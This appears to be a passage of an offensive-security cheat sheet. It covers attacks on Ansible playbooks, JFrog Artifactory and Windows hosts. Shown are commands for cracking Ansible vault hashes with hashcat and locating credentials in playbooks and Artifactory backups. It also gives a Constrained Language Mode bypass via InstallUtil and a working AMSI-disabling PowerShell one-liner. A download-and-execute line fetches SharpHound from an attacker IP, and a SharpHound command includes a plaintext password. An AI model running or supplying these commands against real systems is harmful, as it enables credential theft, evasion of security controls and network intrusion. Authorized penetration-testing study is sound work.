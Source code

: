Playbook

Execute commands on node servers

Retrieve credentials of node servers from playbook
```bash
python3 /usr/share/john/ansible2john.py web.yaml

hashcat hash.txt --force --hash-type=16900 dict/rockyou.txt

cat pw.txt | ansible-vault decrypt
```
Sensitive data

Playbook contains a command, the command contains plaintext credential. Like mysql.yml

/var/log/syslog

### Jfrog

Binary Repository Manager

Port 8082
```
ps aux | grep artifactory
```
Check existing files and user interactions like creation, download, etc.

Delivery malicious file (With user interaction)

Database backup contains credential: ```/opt/jfrog/artifactory/var/backup/access```

Compromise database

## Local Reconnaissance On Windows
### CLM

#### Check CLM
```powershell
$ExecutionContext.SessionState.LanguageMode
```
#### Bypass CLM
```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "C:\Windows\Tasks\clm.exe"
```
### AMSI

#### Check AMSI
```powershell
'amsiutils'
```
#### Disable AMSI
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Failed") {$f=$e}};$f.SetValue($null,$true)
```
### Enumerate Domain
```powershell
iex (new-object net.webclient).downloadstring("http://192.168.x.y/tools/sharphound.ps1")
Invoke-BloodHound -CollectionMethod All -Verbose
```
Or
```cmd
SharpHound.exe -c All,GPOLocalGroup,LoggedOn --domain final.com --ldapusername nina --ldappassword 'PasswordRulon123!'
```